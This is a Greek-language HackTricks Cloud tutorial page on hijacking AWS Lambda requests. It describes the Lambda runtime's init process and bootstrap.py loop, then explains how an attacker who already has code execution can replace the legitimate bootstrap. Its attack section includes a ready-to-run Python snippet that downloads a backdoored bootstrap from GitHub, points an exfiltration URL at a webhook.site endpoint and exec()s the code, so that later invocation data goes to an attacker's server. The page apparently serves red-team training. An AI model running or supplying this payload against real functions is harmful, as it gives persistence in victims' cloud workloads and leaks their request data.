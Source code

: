 # AWS - Κλοπή Αιτημάτων Lambda

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Ροή Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** είναι μια διαδικασία εκτός του κοντέινερ που **στέλνει** **κλήσεις** στη διαδικασία **init**.
2. Η διαδικασία init ακούει στη θύρα **9001** εκθέτοντας μερικά ενδιαφέροντα endpoints:
* **`/2018-06-01/runtime/invocation/next`** – λάβετε το επόμενο γεγονός κλήσης
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – επιστρέψτε την απάντηση του χειριστή για την κλήση
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – επιστρέψτε ένα σφάλμα εκτέλεσης
3. **bootstrap.py** έχει έναν βρόχο που λαμβάνει κλήσεις από τη διαδικασία init και καλεί τον κώδικα των χρηστών για να τις διαχειριστεί (**`/next`**).
4. Τέλος, το **bootstrap.py** στέλνει στην init την **απάντηση**

Σημειώστε ότι το bootstrap φορτώνει τον κώδικα του χρήστη ως module, οπότε οποιαδήποτε εκτέλεση κώδικα που πραγματοποιείται από τον κώδικα του χρήστη συμβαίνει στην πραγματικότητα σε αυτή τη διαδικασία.

## Κλοπή Αιτημάτων Lambda

Ο στόχος αυτής της επίθεσης είναι να κάνει τον κώδικα του χρήστη να εκτελέσει μια κακόβουλη διαδικασία **`bootstrap.py`** μέσα στη διαδικασία **`bootstrap.py`** που διαχειρίζεται το ευάλωτο αίτημα. Με αυτόν τον τρόπο, η **κακόβουλη bootstrap** διαδικασία θα αρχίσει να **επικοινωνεί με τη διαδικασία init** για να διαχειριστεί τα αιτήματα ενώ η **νόμιμη** bootstrap είναι **παγιδευμένη** εκτελώντας την κακόβουλη, οπότε δεν θα ζητήσει αιτήματα από τη διαδικασία init.

Αυτή είναι μια απλή εργασία για να επιτευχθεί καθώς ο κώδικας του χρήστη εκτελείται από τη νόμιμη διαδικασία **`bootstrap.py`**. Έτσι, ο επιτιθέμενος θα μπορούσε:

* **Να στείλει ένα ψεύτικο αποτέλεσμα της τρέχουσας κλήσης στη διαδικασία init**, ώστε η init να νομίζει ότι η διαδικασία bootstrap περιμένει περισσότερες κλήσεις.
* Ένα αίτημα πρέπει να σταλεί στο **`/${invoke-id}/response`**
* Το invoke-id μπορεί να αποκτηθεί από τη στοίβα της νόμιμης διαδικασίας **`bootstrap.py`** χρησιμοποιώντας το [**inspect**](https://docs.python.org/3/library/inspect.html) python module (όπως [προτάθηκε εδώ](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ή απλά ζητώντας το ξανά στο **`/2018-06-01/runtime/invocation/next`** (όπως [προτάθηκε εδώ](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Εκτελέστε μια κακόβουλη **`boostrap.py`** που θα διαχειρίζεται τις επόμενες κλήσεις
* Για λόγους μυστικότητας, είναι δυνατό να στείλετε τις παραμέτρους κλήσεων lambda σε έναν ελεγχόμενο από τον επιτιθέμενο C2 και στη συνέχεια να διαχειριστείτε τα αιτήματα όπως συνήθως.
* Για αυτήν την επίθεση, αρκεί να αποκτήσετε τον αρχικό κώδικα του **`bootstrap.py`** από το σύστημα ή το [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), να προσθέσετε τον κακόβουλο κώδικα και να τον εκτελέσετε από την τρέχουσα κλήση lambda.

### Βήματα Επίθεσης

1. Βρείτε μια **RCE** ευπάθεια.
2. Δημιουργήστε μια **κακόβουλη** **bootstrap** (π.χ. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Εκτελέστε** την κακόβουλη bootstrap.

Μπορείτε εύκολα να εκτελέσετε αυτές τις ενέργειες εκτελώντας:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Για περισσότερες πληροφορίες, ελέγξτε [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Αναφορές

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
